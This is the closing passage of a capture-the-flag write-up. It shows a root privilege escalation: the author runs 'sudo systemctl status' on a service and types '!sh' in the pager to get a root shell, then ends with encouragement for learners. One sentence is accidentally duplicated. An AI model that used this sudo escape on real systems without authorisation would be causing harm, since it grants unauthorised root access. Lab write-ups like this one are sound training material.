 Test this by executing the command:

```
sudo /usr/bin/systemctl status trail.service
```

then type `!sh` with your keyboard and hit enter:
```
!sh
```

Yay, we got the shell as root. You can confirm this using the `id` or `whoami` command. Now you can read the root flag.an confirm this using `id` or `whoami` command. Now you can read the root flag.


## Conclusion

I understand this may seem too fast, but there isn't much about this machine that requires explanation. Just remember that you don't need to doubt your skills. After learning different concepts and doing some CTFs, you will start picking up things on your own. Don't forget to double-check every possible aspect, such as version, vulnerabilities, and more. I wish you luck for the future.


HAPPY HACKING :)
